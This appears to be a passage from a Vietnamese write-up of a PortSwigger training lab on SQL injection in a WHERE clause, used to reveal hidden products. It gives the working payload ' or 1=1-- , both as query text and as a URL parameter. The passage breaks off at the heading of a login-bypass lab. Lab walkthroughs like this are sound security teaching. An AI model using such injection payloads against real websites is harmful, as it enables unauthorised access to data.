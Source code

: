 
## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### Link: [https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

![](images/75.png)

Đề yêu cầu ta dùng SQL injection để hiển thị toàn bộ sản phẩm cả released(released = 1) và unreleased(released = 0)

‘Gift’ là giá trị ta có thể control

Như vậy ta chỉ cần thay Gifts thành `' or 1=1-- `

Lúc này câu lệnh truy vấn trở thành `SELECT * FROM products WHERE category = '' or 1=1-- ' AND released = 1`

`?category=Pets'+or+1=1--+`

![](images/76.png)

Solve thành công, 1 challenge cực kì nhẹ nhàng



## Lab: SQL injection vulnerability allowing login bypass
